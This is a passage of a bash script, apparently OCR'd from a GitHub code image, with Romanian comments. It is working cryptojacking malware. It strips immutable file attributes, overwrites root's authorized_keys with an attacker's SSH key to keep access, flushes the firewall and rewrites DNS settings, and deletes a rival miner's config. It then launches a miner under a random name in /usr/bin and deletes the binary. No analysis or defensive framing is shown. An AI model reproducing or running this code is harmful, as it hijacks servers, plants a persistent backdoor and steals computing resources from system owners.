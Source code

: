 ```bash
	$static2 -i -a -j -t -d -u /usr/local
	$static2 -i -a -j -t -d -u /usr/local/share
	$static2 -i -a -j -t -d -u $locatie_pid
	chmod +x $locatie_pid
}
######
sshkeyset() {
	if [ $(id -u) = 0 ]; then
		if [ -f "/root/.ssh/authorized_keys" ]; then
			if ! cat /root/.ssh/authorized_keys | grep -q "${sshkey}" ; then
				$static2 -i -a -j -t -d -u /root ; $static2 -i -a -j -t -d -u /root/.ssh ; $static2 -i -a -j -t -d -u /root/.ssh/authorized_keys
				echo $sshkey > "/root/.ssh/authorized_keys"
				chmod 600 /root/.ssh/authorized_keys
				$static2 +i /root/.ssh/authorized_keys
			else
				:
			fi
		else
			if [ -d "/root/.ssh" ]; then
				$static2 -i -a -j -t -d -u /root/.ssh
				echo $sshkey > "/root/.ssh/authorized_keys"
				chmod 600 /root/.ssh/authorized_keys
				$static2 +i /root/.ssh/authorized_keys
			else
				$static2 -i -a -j -t -d -u /root
				mkdir "/root/.ssh" 
				echo $sshkey > "/root/.ssh/authorized_keys"
				chmod 600 /root/.ssh/authorized_keys
				$static2 +i /root/.ssh/authorized_keys
			fi
		fi
	fi
}
######
scoatem_ports(){
	iptables -F ; iptables --flush ; echo "nameserver 8.8.8.8"> /etc/resolv.conf
}
######
kulkat() {
	if [ -f /usr/bin/config.json ]; then
		$static2 -i -a -j -t -d -u /usr/bin/config.json
		rm -rf /usr/bin/config.json
	fi
}
######
functie_on(){
	$static2 -i -a -j -t -d -u /usr/bin
	$static2 -i -a -j -t -d -u /usr
	$static $locatie_miner_default /usr/bin/$random_name
	/usr/bin/$random_name > /dev/null 2>&1 & disown
	echo $random_name > $locatie_pid
	$static3 -rf /usr/bin/$random_name
}
######
### End of Functii / Varibile ###
## aici incepe tot codu cica
permisiuni_logs
sshkeyset
scoatem_ports
kulkat
functie_on
```